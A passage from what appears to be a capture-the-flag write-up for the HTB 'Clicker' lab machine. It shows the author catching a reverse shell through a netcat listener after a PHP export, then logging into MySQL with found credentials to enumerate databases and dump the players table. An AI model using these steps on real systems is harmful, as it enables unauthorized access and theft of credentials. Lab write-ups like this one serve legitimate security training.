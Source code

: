 I exported the players as PHP again. When I accessed the exported file, I got a shell.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.59] from (UNKNOWN) [10.129.65.239] 52494
bash: cannot set terminal process group (1216): Inappropriate ioctl for device
bash: no job control in this shell
www-data@clicker:/var/www/clicker.htb/exports$
```

## User Jack

I had database credentials. So once on the server, I connected to the DB to see what I could find in it.

```sql
www-data@clicker:/var/www/clicker.htb$ mysql -u clicker_db_user -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 238
Server version: 8.0.34-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| clicker            |
| information_schema |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use clicker;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> show Tables;
+-------------------+
| Tables_in_clicker |
+-------------------+
| players           |
+-------------------+
1 row in set (0.00 sec)

mysql> Select * From players;
+---------------+------------------------------------------------------------------------------------------------+------------------------------------------------------------------+-------+--------------------+-----------+
| username      | nickname                                                                                       | password                                                         | role  | clicks             | level     |
+---------------+------------------------------------------------------------------------------------------------+------------------------------------------------------------------+-------+--------------------+-----------+
```